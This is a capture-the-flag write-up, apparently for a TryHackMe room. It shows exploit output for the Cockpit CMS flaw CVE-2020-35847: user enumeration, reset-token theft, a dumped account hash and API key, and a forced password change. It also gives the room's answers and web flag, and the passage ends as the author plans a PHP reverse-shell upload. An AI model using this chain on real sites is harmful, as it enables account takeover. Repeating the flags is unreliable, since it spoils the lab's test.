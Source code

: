 ```
[+]   Found users: ["admin", "darkStar7471", "skidy", "ekoparty"]
[*] Obtaining reset tokens (CVE-2020-35847)
[*] Attempting to generate tokens
[*] Obtaining reset tokens (CVE-2020-35847)
[+]   Found tokens: ["rp-965b71dcb790d2d0a9924f9d0c204ea0610d4a41292c6"]
[*] Checking token: rp-965b71dcb790d2d0a9924f9d0c204ea0610d4a41292c6
[*] Obtaining user info
[*]   user: skidy
[*]   email: skidy@tryhackme.fakemail
[*]   active: true
[*]   group: admin
[*]   i18n: en
[*]   api_key: account-21ca3cfc400e3e565cfcb0e3f6b96d
[*]   password: $2y$10$uiZPeUQNErlnYxbI5PsnLurWgvhOCW2LbPovpL05XTWY.jCUave6S
[*]   name: Skidy
[*]   _modified: 1621719311
[*]   _created: 1621719311
[*]   _id: 60a9790f393037a2e400006a
[*]   _reset_token: rp-965b71dcb790d2d0a9924f9d0c204ea0610d4a41292c6
[*]   md5email: 5dfac21f8549f298b8ee60e4b90c0e66
[+] Changing password to jkU4jD36bc
[+] Password update successful
```

## How many users can you identify when you reproduce the user enumeration attack?
4

## What is the path that allows you to change user account passwords?
/auth/resetpassword

## Compromise the Content Management System (CMS). What is Skidy's email.
We can get skidy's email either using the metasploit module or just simply log in via skidy's account and look at his account details.
skidy@tryhackme.fakemail

## What is the web flag?
I managed to log in with admin:admin that i generated earlier. Now we need to do some reconnaissance to find the web flag.
In the finder menu we can view the file system. There is a webflag.php file that contains the flag.
$flag = "thm{f158bea70731c48b05657a02aaf955626d78e9fb}";

## Compromise the machine and enumerate collections in the document database installed in the server. What is the flag in the database?
Now we need to find a way to get into the machine.
I found this endpoint that can upload and access with direct link files. Let's uplaod a php reverse shell and get ourselves a shell.

